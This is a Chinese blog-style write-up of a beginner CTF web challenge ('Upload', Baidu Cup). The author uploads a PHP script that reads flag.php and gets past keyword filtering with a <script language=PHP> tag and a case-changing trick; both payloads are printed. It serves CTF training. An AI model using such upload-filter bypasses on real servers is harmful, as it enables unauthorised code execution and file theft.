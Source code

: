 ```yaml
---

layout: post
title:  CTF竞赛-文件上传
description: 本文为CTF web网络攻防方向，主要记录文件上传的题目
date:   2021-03-25 18:56:31 +0800
image:  '/images/gallery/sappho-and-alcaeus.jpg'
tags:   [网络安全, CTF]
mathjax: true
---
```


> <cite>Title: Sappho and Alcaeus  
Creator: Lawrence Alma-Tadema  
Creator Lifespan: 1836/1912  
Creator Nationality: Dutch and British  
Date Created: 1881  
Physical Dimensions: w122 x h104.1402 cm  
Type: oil paintings; panel paintings  
Medium: oil on panel  
Artist: Sir Lawrence Alma-Tadema, R.A., O.M.  </cite>  

CTF竞赛题目类型主要包含 `Web 网络攻防` 、 `Reverse 逆向工程` 、 `Pwn 二进制漏洞利用` 、 `Crypto 密码攻击` 、 `Mobile 移动安全`  以及 `Misc 安全杂项` 这六个类别。

本文为web网络攻防方向。

## 赛题

### 初始来源

#“百度杯”CTF比赛# #九月场# #Upload#

### 赛题传送门

<a href="https://www.ichunqiu.com/battalion?t=1" target="_blank">i春秋CTF大本营</a>  

【赛题类型】—>【CTF训练】

【比赛名称】—>【全部】

【题目类型】—>【Web】

选择价值 50pt，类型为 Web，名称为【Upload】的题目：

![image-20210324144139821](images/posts/ctf/image-20210324144139821.png)

## 解题过程

进入到靶场环境后，得到如下的初始页面：

![image-20210324144309647](images/posts/ctf/image-20210324144309647.png)

根据题目的提示tips：flag在flag.php中，可以推测本题目是想通过上传文件，并通过执行文件读取flag.php源码，来获取flag。

先随意上传一张图片看看效果：

![image-20210324145416668](images/posts/ctf/image-20210324145416668.png)

发现**【上传成功!】**是个超链接可以点击，点击后是查看上传文件：

![image-20210324145532512](images/posts/ctf/image-20210324145532512.png)

由此得出，可以通过文件上传来构造读取flag.php的源码。

先构造最简单直接的版本：

```php
<?php
$file = fopen("../flag.php", "r");
echo fread($file, filesize("../flag.php"));
fclose($file)
?>
```

上传后，得到

![image-20210324150835203](images/posts/ctf/image-20210324150835203.png)

发现并没有执行，并且**php**后缀都被过滤掉了，尝试将 **?php**  使用 **<script>** 绕过，代码中的 **.php** 使用大写绕过：

```php
<script language=PHP>
$file = fopen("../flag.".strtolower("PHP"), "r");
echo fread($file, filesize("../flag.".strtolower("PHP")));
fclose($file)
</script>
```

上传后，得到：

![image-20210324151330884](images/posts/ctf/image-20210324151330884.png)

此时并没有输出错误，说明执行成功了，**【F12】查看网页源码**：

![image-20210324151407995](images/posts/ctf/image-20210324151407995.png)

至此，得到flag。

## 总结

本题目相对简单，主要考察php文件读取，以及简单的针对关键字过滤的绕过技巧。
